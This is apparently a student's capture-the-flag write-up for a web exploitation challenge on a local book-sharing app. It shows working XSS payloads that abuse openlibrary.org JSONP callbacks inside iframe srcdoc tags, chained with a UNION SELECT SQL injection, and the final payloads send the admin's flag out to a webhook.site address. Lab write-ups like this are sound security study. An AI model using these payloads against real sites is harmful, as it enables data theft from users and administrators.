





# web exploitation

this challenge took too much time

## steps

- so in the first i read all the backend file that was given i read the main file and the view.ejs and register.ejs i serached all the file to find a suitable place to infiltrate. i lloked for tages of ineerHTml beacuse thats like adding a new element. the dom commands so we see that the autor and the booktitle form is the endpoint like we can explit that.
- tried all <script>alert("hacked by mahek")</script> this did not work.i ggogled it said to try img svg and all these files but the thing it was going to open library which is like an api whith which is getting the data.

- You control the URL → you host malicious JSON → server injects it into admin’s browser.
- https://openlibrary.org/search.json?title=%3Cimg%20src=x%20onerror=alert(1)%3E
tried this first it didnot woek but the idea is clear that we need use json and infect the admins browser

- <iframe srcdoc="<script src='https://openlibrary.org/api/books?bibkeys=ISBN:9780980200447&jscmd=viewapi&callback=alert(`XSS_By_Mahek`)'></script>"></iframe> this created the attack it prompted and helped infiltrate.



- this is the first command that 9 tried which did not from becuase i did not inclue the json alert callback. we need that to alert the system and get the a callback.the json affects the api that creates and we see the letid to make the url that we can got use and infiltrate from the admin side



- we use that link and infiltrate from the admin side

- helped infiltrate.
f2Dj-dtsvq   this is the liteid of the create api so that will form the link fFlOyhpxX7
the userid is rachay1ta
so link is 
http://localhost:50001/liteShare/rachay1ta/vTsOMzRHak for one of the books



- after that i looked at utils fila and found that it is prone to sql injection we can union select object beacuse there is nothing in the code that objects it. so it is vulnerable to the sql injection and we need to use union select.

- the next part was to make the payload we know that we can do union select from

```bash
UNION SELECT link as title FROM BOOKS WHERE link LIKE "%flag%" --

```
- here we select the union elect and we replace for the column from the link as title from books so we dont have to worry about the number of colums and we dont know the way the flag is like we dont know what format the flag is given hence we write with the percentage sign as a placeholder

```bash

<iframe
srcdoc="<script src='https://openlibrary.org/api/books?bibkeys=ISBN:x&jscmd=viewapi&callback=fetch('/api/delete?title='+encodeURIComponent('" UNION SELECT 
link as title FROM BOOKS WHERE link LIKE "%flag%" --'),{method:'POST'}).then(r=>r.json()).then(d=>window.top.location='https://webhook.site/
09c8ca76-2483-4c7b-8c05-9f0bdfc5aadf?flag='+encodeURIComponent(d.book.title))'
></script>"></iframe>
```
- used this and it failed i could figure out so i tried diffrent encoding and try to pass this thats when url encoding worked

```bash
<iframe
srcdoc="<script src='https://openlibrary.org/api/books?bibkeys=ISBN:x&jscmd=viewapi&callback=fetch(%27%2Fapi%2Fdelete%3Ftitle%3D%27%2BencodeURIComponent(%27%22%20UNION%20SELECT%20link%20as%20title%20FROM%20BOOKS%20WHERE%20link%20LIKE%20%22%25flag%25%22%20--%27)%2C%7Bmethod%3A%27POST%27%7D).then(r%3D%3Er.json()).then(d%3D%3E%7Bwindow.top.location%3D%27https%3A%2F%2Fwebhook.site%2F09c8ca76-2483-4c7b-8c05-9f0bdfc5aadf%3Fflag%3D%27%2BencodeURIComponent(d.book.title)%7D)'
></script>"></iframe>


```





## flag
nite{test_flag_stp}
